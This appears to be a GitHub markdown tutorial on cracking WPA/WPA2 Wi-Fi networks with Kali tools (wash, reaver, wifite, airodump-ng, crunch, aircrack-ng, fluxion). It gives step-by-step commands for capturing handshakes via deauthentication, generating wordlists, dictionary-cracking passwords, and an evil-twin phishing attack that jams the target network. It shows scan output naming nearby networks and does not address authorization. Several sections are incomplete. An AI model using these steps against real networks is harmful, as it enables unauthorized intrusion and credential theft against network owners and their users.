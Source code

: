 # Play With WPA / WPA2 Encryption


### WPA/WPA2:
- WPA/WPA2 (Wi-Fi Procted Access) is the latest generation of network encryption.
- It's desgined to secure wireless computer network.
- WPA/WPA2 are similar but the only different is WPA2 uses CCMP algorithm.
- It's the most widely used encryption to secure the networks.
- It's using a unique temporary key and using 256 bits.

First we have to check is which network have WPA and enable on it. We gonna use tool called **wash**.

Open a terminal and type: `wash`

You will see the all option.

`wash -i wlan0mon -F`

```
wahs		-> tool
-i			-> interface
wlan0mon	-> network card name
-F			--ignore-fcs (Ignore frame checksum errors)
```
Select your target.

```
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
50:64:2B:47:F0:53    1  -75  2.0  No   RalinkTe  Arnob Amit
0C:80:63:78:0F:0A    1  -91  2.0  No   RalinkTe  jarif
D4:6E:0E:77:03:1E    1  -86  2.0  No   RalinkTe  AHAD JOY
14:CC:20:B2:B3:E2    1  -88  1.0  No   AtherosC  WiFi
C4:6E:1F:0B:A2:E0    1  -61  1.0  No   AtherosC  shad wi-fi
```
Now We gonna use tool called **reaver**.

`reaver -i wlan0mon -b 50:64:2B:C7:3E:30 -c 6 -vv 1`

```
reaver				-> tool
-i					-> interface
wlan0mon			-> network card on monitor mode
XX:XX:XX:XX:XX:XX	-> target network mac address
-c					-> channel
-vv					-> display non chractor error
-K					-> pixie-dust
```
This method is not working good. Now we use **wifite** tool. Just use the command then network scan will be automatically.

`wifite`

```
NUM                      ESSID   CH  ENCR  POWER  WPS?  CLIENT
   ---  -------------------------  ---  ----  -----  ----  ------
     1                      L1F2     1   WPA   51db   yes                                             
     2                      LiFi     6   WPA   48db    no                                             
     3                shad wi-fi     1   WPA   40db   yes                                             
     4                        SK     3   WPA   35db   yes    1                                        
     5                     maruf    11   WPA   35db    no
```

Then press *ctrl+c* and type your target channel. Example:

`[+] select target(s) (1-40) separated by commas, dashes or all: 1`

This method is not working maximux time. Now we use another method.

## Capture The Handshake File

We can only capture handshake file when a client connect to the network.

**Steps:**
- We will disconnect the client using deauthentication attack.
- Then we will let him connect again by stoping the attack.
- After that will be able to capture the handshake. 


`airmon-ng start wlan0`		-> change monitor mood.

`airodump-ng wlan0mon`		-> scan the network

Scan the target network.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write HandShak wlan0mon`

New *.cap* file is created.

## Creating a wordlist.

Crunch can generate all possible combinations and permutations.

**Crunch Useful Commands:**

- (MIN) The minimum number of characters
- (MAX) The maximun number of character
- T(PATTERN) You can use it if you know the first or the last *character* of the password
- O(OUTPUT) where do you want to output the wordlist

`CRUNCH (MIN)(MAX) {CHARACTERS:NUMBERS|SYMBOLES|CAPITAL OR SMALL LETTER} -T (PATTERN) -O (OUTPUT)`

Example create word list.

`crunch 5 8 123456abcdefg -o /root/Documents/wordlist.list`

or you can min and max is same number.

`crunch 8 8 123456abcdefg -o /root/Documents/wordlist.list`

`crunch 5 5 123456abcdefg -t a@@@b -o /root/Documents/wordlist.list`


## Dictionary Attack

Guessing the password of the access point by using a wordlist contants a large number of passwords.

**THEORY**
- Aircrack-ng tool will combine the passwords with the access point name.
- Create a pairwish master key or (PMK) using PBKDF2 algorithm
- This PMK is going to compared to the **HANDSHAK**

Target you network as like befoure and then dictionary attack using aircrack-ng tool.

`aircrack-ng dictionary-01.cap -w '/root/Documents/wordlist.list`

If the password is in your wordlist then you get it.


## Creacking WPA/WPA2 Using BRETEFORCE Attack

The problems that we could face with dictionary attack is there is not enough space on our HARD DRIVE nad tacking time to generate a big wordlist.

**BruteForce Attack:**

- Capture the HANDSHAKE.
- Use AIRCRACK-NG and CRUNCH at the same time.
- Use CRUNCH to specify the charactures.

Chanve manage mode to monitor mode.
`airmon-ng start wlan0`

Scaning network for target.
`airodump-ng wlan0mon`

Target network scaning.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write bruteforce wlan0mon`


## Cracking WPA/WPA2 Using RAINBOW TABLE Attack

Rainbow table attack is much quicker then dictionary and bruteforce attack. Rainbow table attack converting all the PASSWORD to PMK.

**STEPS**

- Creaate a databse using Alrolib-ng.
- Import the essid and the wordlist to the database.
- Combing the essid with the wordlist.
- Convert the password to pmk.

**NOT COMPLETE**


## Cracking WPA/WPA2 Using Evil Twin Attack

- Create a new access point has the same information of the target network.
- Jam the target network.
- Tthe client will forced to connect to our (AP)
- A security recommendation page will pop up and ask him for the password.

We will use **fluxion** tool. It has not default install kali linux. So first we have to clone or download in github.

`https://github.com/FluxionNetwork/fluxion`

Go to **fluxion** directory first and install it.

`root@kali:~/fluxion# ./Installer.sh`

